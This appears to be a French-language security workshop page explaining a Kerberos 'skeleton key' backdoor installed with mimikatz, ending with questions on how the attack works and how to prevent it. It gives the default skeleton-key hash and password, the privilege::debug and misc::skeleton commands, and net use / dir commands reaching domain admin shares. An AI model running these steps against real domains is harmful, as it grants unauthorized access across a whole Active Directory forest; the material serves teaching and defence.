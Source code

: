 # Creation de Backdoor Kerberos avec Mimikatz

En plus de maintenir l'accès à l'aide de Golden/Silver tickets, mimikatz a un autre atout dans ses manches lorsqu'il s'agit d'attaquer Kerberos.  

Contrairement aux attaques par ticket classiques, un backdoor Kerberos est beaucoup plus subtile car il agit de la même manière qu'un rootkit en s'implantant dans la mémoire de la forêt de domaines, ce qui lui permet d'accéder à n'importe laquelle des machines avec un mot de passe principal.

Le Backdoor Kerberos fonctionne en implantant une clé squelette (_skeleton key_) qui abuse de la façon dont l'AS-REQ valide les horodatages chiffrés. Une clé squelette ne fonctionne qu'avec le cryptage Kerberos RC4.

Le hachage par défaut pour une clé squelette mimikatz est 60BA4FCADC466C7A033C178194C03DF6, ce qui rend le mot de passe -"mimikatz"

Ce workshop ne sera qu'une section de présentation et ne vous obligera pas à faire quoi que ce soit sur la machine, mais je vous encourage à continuer par vous-même ultérieurement et à ajouter d'autres machines et à tester en utilisant des clés squelettes avec mimikatz.

**Fonctionnement de la clé squelette** -

- La clé squelette fonctionne en abusant des horodatages chiffrés AS-REQ.  
comme expliqué ci-dessus, l'horodatage est chiffré avec le hachage NT des utilisateurs.  
- Le contrôleur de domaine essaie ensuite de déchiffrer cet horodatage avec le hachage NT des utilisateurs, une fois qu'une clé squelette est implantée, le contrôleur de domaine essaie de déchiffrer l'horodatage en utilisant à la fois le hachage NT de l'utilisateur et le hachage NT de la clé squelette vous permettant d'accéder à la forêt du domaine.

**Test préalable**

Tester en montant un accès sur un disque avec NET USE sans mot de passe
`controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>net use z: \\10.10.231.111\admin$ /USER:Administrator`

**Préparation de Mimikatz** -

1.) ```cd Downloads && mimikatz.exe``` - Accédez au répertoire dans lequel se trouve mimikatz et exécutez mimikatz

2.) ```privilege::debug``` - Cela devrait être une norme pour l'exécution de mimikatz car mimikatz a besoin d'un accès administrateur local



**Installation de la clé squelette avec mimikatz **

1.) ```misc::skeleton``` - Oui ! c'est tout, mais ne sous-estimez pas cette petite commande elle est très puissante ☠️



**Accéder à la forêt** 

Les identifiants par défaut seront : "mimikatz"

exemple : ```net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz``` - Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateurs

exemple : ```dir \\Desktop-1\c$ /user:Machine1 mimikatz``` - accéder au répertoire de Desktop-1 sans jamais savoir quels utilisateurs ont accès à Desktop-1

La clé squelette ne persistera pas par elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou persistée à l'aide d'autres outils et techniques, mais cela est hors de portée pour ce worskshop.

Tester en montant un accès sur un disque avec NET USE sans mot de passe
`controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>net use z: \\10.10.231.111\admin$ /USER:Administrator`
The command completed successfully

**Répondez aux questions** 

Qu'est ce qui rend une telle attaque possible ?
```
reponse
```

Comment pourrait-on s'en protéger et l'empêcher ?
```
reponse
```
